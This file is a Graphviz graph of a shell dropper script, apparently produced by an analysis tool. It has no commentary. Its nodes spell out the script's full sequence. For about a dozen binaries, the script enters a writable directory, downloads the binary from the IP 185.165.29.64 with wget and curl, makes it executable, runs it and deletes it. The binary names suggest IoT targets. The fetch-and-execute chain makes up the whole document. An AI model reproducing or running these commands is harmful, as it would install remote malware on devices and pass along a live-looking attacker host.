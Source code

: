 digraph {
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 10 [label="||,"];
10 [label="wget http://185.165.29.64/Flses "];
10 -> 12 [label=";,"];
12 [label="curl -O http://185.165.29.64/Flses "];
12 -> 14 [label=";,"];
14 [label="chmod +x Flses "];
14 -> 16 [label=";,"];
16 [label="./Flses "];
16 -> 18 [label=";,"];
18 [label="rm -rf Flses "];
18 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 30 [label="||,"];
30 [label="wget http://185.165.29.64/7331 "];
30 -> 32 [label=";,"];
32 [label="curl -O http://185.165.29.64/7331 "];
32 -> 34 [label=";,"];
34 [label="chmod +x 7331 "];
34 -> 36 [label=";,"];
36 [label="./7331 "];
36 -> 38 [label=";,"];
38 [label="rm -rf 7331 "];
38 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 50 [label="||,"];
50 [label="wget http://185.165.29.64/hxorss "];
50 -> 52 [label=";,"];
52 [label="curl -O http://185.165.29.64/hxorss "];
52 -> 54 [label=";,"];
54 [label="chmod +x hxorss "];
54 -> 56 [label=";,"];
56 [label="./hxorss "];
56 -> 58 [label=";,"];
58 [label="rm -rf hxorss "];
58 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 70 [label="||,"];
70 [label="wget http://185.165.29.64/ifican "];
70 -> 72 [label=";,"];
72 [label="curl -O http://185.165.29.64/ifican "];
72 -> 74 [label=";,"];
74 [label="chmod +x ifican "];
74 -> 76 [label=";,"];
76 [label="./ifican "];
76 -> 78 [label=";,"];
78 [label="rm -rf ifican "];
78 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 90 [label="||,"];
90 [label="wget http://185.165.29.64/else "];
90 -> 92 [label=";,"];
92 [label="curl -O http://185.165.29.64/else "];
92 -> 94 [label=";,"];
94 [label="chmod +x else "];
94 -> 96 [label=";,"];
96 [label="./else "];
96 -> 98 [label=";,"];
98 [label="rm -rf else "];
98 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 110 [label="||,"];
110 [label="wget http://185.165.29.64/dvrs "];
110 -> 112 [label=";,"];
112 [label="curl -O http://185.165.29.64/dvrs "];
112 -> 114 [label=";,"];
114 [label="chmod +x dvrs "];
114 -> 116 [label=";,"];
116 [label="./dvrs "];
116 -> 118 [label=";,"];
118 [label="rm -rf dvrs "];
118 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 130 [label="||,"];
130 [label="wget http://185.165.29.64/phones "];
130 -> 132 [label=";,"];
132 [label="curl -O http://185.165.29.64/phones "];
132 -> 134 [label=";,"];
134 [label="chmod +x phones "];
134 -> 136 [label=";,"];
136 [label="./phones "];
136 -> 138 [label=";,"];
138 [label="rm -rf phones "];
138 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 150 [label="||,"];
150 [label="wget http://185.165.29.64/netis "];
150 -> 152 [label=";,"];
152 [label="curl -O http://185.165.29.64/netis "];
152 -> 154 [label=";,"];
154 [label="chmod +x netis "];
154 -> 156 [label=";,"];
156 [label="./netis "];
156 -> 158 [label=";,"];
158 [label="rm -rf netis "];
158 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 170 [label="||,"];
170 [label="wget http://185.165.29.64/ssh "];
170 -> 172 [label=";,"];
172 [label="curl -O http://185.165.29.64/ssh "];
172 -> 174 [label=";,"];
174 [label="chmod +x ssh "];
174 -> 176 [label=";,"];
176 [label="./ssh "];
176 -> 178 [label=";,"];
178 [label="rm -rf ssh "];
178 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 190 [label="||,"];
190 [label="wget http://185.165.29.64/huh "];
190 -> 192 [label=";,"];
192 [label="curl -O http://185.165.29.64/huh "];
192 -> 194 [label=";,"];
194 [label="chmod +x huh "];
194 -> 196 [label=";,"];
196 [label="./huh "];
196 -> 198 [label=";,"];
198 [label="rm -rf huh "];
198 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 210 [label="||,"];
210 [label="wget http://185.165.29.64/noice "];
210 -> 212 [label=";,"];
212 [label="curl -O http://185.165.29.64/noice "];
212 -> 214 [label=";,"];
214 [label="chmod +x noice "];
214 -> 216 [label=";,"];
216 [label="./noice "];
216 -> 218 [label=";,"];
218 [label="rm -rf noice "];
218 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 230 [label="||,"];
230 [label="wget http://185.165.29.64/mate "];
230 -> 232 [label=";,"];
232 [label="curl -O http://185.165.29.64/mate "];
232 -> 234 [label=";,"];
234 [label="chmod +x mate "];
234 -> 236 [label=";,"];
236 [label="./mate "];
236 -> 238 [label=";,"];
238 [label="rm -rf mate "];
238 -> 240 [label=";,"];
240 [label="cd /tmp "];
240 -> 240
242 [label="cd /var/run "];
242 -> 244 [label="||,"];
244 [label="cd /mnt "];
244 -> 246 [label="||,"];
246 [label="cd /root "];
246 -> 248 [label="||,"];
248 [label="cd / "];
248 -> 250 [label="||,"];
250 [label="wget http://185.165.29.64/lmaooo "];
250 -> 252 [label=";,"];
252 [label="curl -O http://185.165.29.64/lmaooo "];
252 -> 254 [label=";,"];
254 [label="chmod +x lmaooo "];
254 -> 256 [label=";,"];
256 [label="./lmaooo "];
256 -> 257 [label=";,"];
}
